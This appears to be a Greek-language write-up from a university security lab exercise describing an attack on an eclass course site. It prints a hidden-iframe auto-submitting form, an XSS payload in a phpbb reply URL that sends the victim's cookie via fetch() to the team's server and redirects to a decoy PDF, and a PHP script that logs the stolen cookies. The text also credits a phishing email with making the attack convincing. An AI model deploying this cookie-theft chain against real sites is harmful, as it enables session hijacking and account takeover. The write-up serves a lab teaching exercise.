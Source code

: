 ```html
<form action="http://edimoi-diariktes.csec.chatzi.org/courses/TMA102/"  method="get" target="dummyframe2" id="form2">
</form>

<script>

function submitForms (){
    document.getElementById("form2").submit();
    setTimeout(() => {  document.getElementById("form1").submit(); }, 400);
}
</script>

</body>
</html>
```
Ο παραπάνω κώδικας πραγματοποιεί:
- Δημιουργεί ένα iframe και πραγματοποιεί ένα get request στην διεύθυνση http://edimoi-diariktes.csec.chatzi.org/courses/TMA102/ , έτσι ώστε ο χρήστης να κάνει "κλικ" στο μάθημα που επιθυμούμε. Λόγω του iframe η όλη διαδικασία παραμένει κρυφή από τον χρήστη.
- Πραγματοποιεί ένα get request στην διεύθυνση http://edimoi-diariktes.csec.chatzi.org/modules/phpbb/reply.php στην οποία θα πραγματοποιηθεί το XSS attack. Συγκεκριμένα γίνεται το εξής request: ``` http://edimoi-diariktes.csec.chatzi.org/modules/phpbb/reply.php?forum=1&topic=1&reply=<script>fetch('http://angry-nerds.puppies.chatzi.org/thesis/steal_cookie.php?cookie='.concat(document.cookie)); setTimeout(function() { window.top.location.href = 'http://angry-nerds.puppies.chatzi.org/project_submission/project48lis.pdf' }, 375 ) </script> ``` 
    - Το παραπάνω url περιέχει το εξής script (μέσω του οποίου γίνεται το XSS):
    ``` html
    <script>
        fetch('http://angry-nerds.puppies.chatzi.org/thesis/steal_cookie.php?cookie='.concat(document.cookie));
        setTimeout( function() { 
            window.top.location.href = 'http://angry-nerds.puppies.chatzi.org/project_submission/project48lis.pdf' 
            
        }, 375 )
    </script>  
  ```
    - Και πραγματοποιεί τα εξής:
        - Στέλνει ένα get request σε μια σελίδα του puppies στον δικό μας server (http://angry-nerds.puppies.chatzi.org/thesis/steal_cookie.php) με επιπλέον παράμετρο το cookie του χρήστη.
        - Κάνει αμέσως redirect σε ένα pdf αρχείο σχετικό με το μάθημα που υπήρχε στο eclass καθώς σε κάθε περίπτωση θα ήταν "περίεργο" για τον χρήστη να βρεθεί στην σελίδα /modules/phpbb/reply.php πατώντας το link που του στείλαμε. Έτσι σε συνδυασμό με το αντίστοιχο κείμενο που γράψαμε στο email, το attack ήταν πολύ πειστικό.

Όπως αναφέρθηκε μέσω ενός get request το cookie του admin στέλνεται στην σελίδα ***/thesis/steal_cookie.php*** που έχουμε ανεβάσεις στο puppies του server μας.
Η σελίδα αυτή περιέχει των εξής κώδικα:
```php
<?php
if (isset($_GET['cookie'])){
  $file = fopen("received_cookies.txt","a");
  fwrite($file, $_GET['cookie']);
  fclose($file);
}
?>
```
Μόλις ληφθεί ένα get request το οποίο περιέχει την παράμετρο cookie, την "διαβάζει" και την αποθηκεύει σε ένα αρχείο.
